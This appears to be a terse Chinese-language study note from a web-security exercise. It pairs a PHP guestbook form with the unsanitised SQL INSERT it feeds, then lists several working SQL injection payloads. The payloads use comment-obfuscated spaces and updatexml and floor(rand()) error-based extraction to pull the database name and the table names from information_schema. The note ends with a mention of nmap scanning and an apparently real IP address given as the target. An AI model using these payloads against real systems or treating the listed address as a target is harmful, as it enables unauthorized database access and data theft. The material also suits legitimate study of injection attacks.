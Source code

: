 ```php+HTML
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>留言板</title>
</head>
<body>

<form action="index.php" method="GET">
    标题:<input type="text" name="title" /><br/>
    内容:<input type="text" name="content" /><br/>
    作者名字:<input type="text" name="author" /><br/>
    <input type="submit" name="submit" value="submit"/><br/>
</form>
<div>
    <p><?php if($message){echo $message;} ?></p>
</div>
    
</body>
</html>
```

```sql

INSERT INTO `article`(`title`,`content`,`author`,`nid`) VALUES('$title','$content','  x  ','123')

x','123'),('x',database(),'3

x','123'),('x',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=0x32776562),'3

x','123'),('x',(updatexml(1,concat(0x7e,(select/**/database())),1)),'3


x','123'),('x',(select/**/1/**/from/**/(select/**/count(*),concat(0x3a,(database()),0x3a,floor(rand()*2))a/**/from/**/information_schema.tables/**/group/**/by/**/a)b),'3

x','123'),('x',(select/**/1/**/from/**/(select/**/count(*),concat(0x3a,(select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=0x32776562/**/limit/**/0,1),0x3a,floor(rand()*2))a/**/from/**/information_schema.tables/**/group/**/by/**/a)b),'3

```



小知识：
nmap/zenmap
标准化扫描器

target is

![img](file:///C:\Users\28633\AppData\Roaming\Tencent\QQTempSys\%W@GJ$ACOF(TYDYECOKVDYB.png)172.93.188.118
